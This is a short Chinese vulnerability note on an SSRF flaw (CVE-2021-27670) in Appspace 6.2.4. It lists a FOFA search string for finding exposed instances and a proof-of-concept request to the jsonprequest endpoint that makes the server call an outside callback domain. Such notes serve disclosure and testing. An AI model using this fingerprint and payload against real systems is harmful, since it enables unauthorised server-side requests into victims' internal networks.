


# Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

```
Appspace 6.2.4
```

## FOFA

```
"Sign-in-to-Appspace-Core"
```

## 漏洞复现

登录页面为



验证POC

```
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://db0bx.2lfmar.yourdomain.xyz
```

